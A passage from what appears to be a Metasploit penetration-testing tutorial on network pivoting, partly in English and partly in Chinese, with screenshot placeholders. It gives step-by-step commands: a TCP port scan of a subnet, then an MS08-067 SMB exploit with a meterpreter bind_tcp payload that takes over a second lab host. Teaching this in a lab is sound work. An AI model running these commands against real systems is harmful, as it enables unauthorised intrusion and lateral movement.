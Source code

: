8.  After successfully dumping the credentials, we will background our `meterpreter` process by pressing *Ctrl* + *Z* and then pressing *Y*.

    ![Pivoting in a network](graphics/3589_11_09.jpg)

9.  The next thing we do is to scan the second network address to check whether the other systems are online or not, and also check for open ports. So we perform a TCP port scan by using an auxiliary module. For this, we type in `use auxiliary/scanner/portscan/tcp`.

    ![Pivoting in a network](graphics/3589_11_10.jpg)

10.  Now type in `show options` and it will show all the options of this module that are usable for this module.

    ![Pivoting in a network](graphics/3589_11_11.jpg)

11.  Now we will set our target address range in the `RHOST` options. So, type in `set rhosts <target IP range>`; for example, here we are using `set rhosts 10.10.10.1/24`.

    ![Pivoting in a network](graphics/3589_11_12.jpg)

12.  Next, set the port numbers that we are looking for. Here we are looking for the most common ports that are found open in a computer system. So type in `set ports <port number>`; for example, here we are giving `set ports 139,445`.

    ![Pivoting in a network](graphics/3589_11_13.jpg)

13.  Next we will set the concurrent thread's number for scanning the TCP ports. So here we are giving threads `50` by typing in `set threads 50`.

    ![Pivoting in a network](graphics/3589_11_14.jpg)

14.  Now our auxiliary module is fully loaded for scanning. The last and final command we are going to execute is the `run` command. So, type in `run`.

    ![Pivoting in a network](graphics/3589_11_15.jpg)

我们可以在前面的屏幕截图中看到，我们的辅助 TCP 模块扫描器已经启动，它发现两个系统正在联机，IP 为 10.10.10.1 和 10.10.10.2，还发现该系统 139 和 445 上有两个打开的端口。这里的 IP 10.10.10.1 已经受损，因此我们的目标是 IP 10.10.10.2。

现在我们要用一个漏洞来攻击另一个系统。我们将要使用的漏洞已经在[第 3 章](03.html "Chapter 3. Exploitation Basics")、*漏洞基础*中使用过；因此，我们非常清楚使用此漏洞的过程。现在让我们开始；输入`use exploit/windows/smb/ms08_067_netapi`并按*进入*。然后输入`set rhost <target IP>`；例如，这里我们使用的是`set rhost 10.10.10.2`。

![Pivoting in a network](graphics/3589_11_16.jpg)

设置目标 IP 后，现在设置损害目标系统的有效负载。这次我们使用有效载荷进行攻击。所以输入`set payload windows/meterpreter/bind_tcp`。

![Pivoting in a network](graphics/3589_11_17.jpg)

现在所有的东西都准备好攻击了，所以输入致命的`exploit`命令。

![Pivoting in a network](graphics/3589_11_18.jpg)

触发`exploit`命令后，我们可以看到`meterpreter`会话 2 已经在 IP 10.10.10.2 上打开。我们已经有了来自受损系统的会话 1；通过这个被破坏的系统，我们能够破坏网络中的另一个系统。
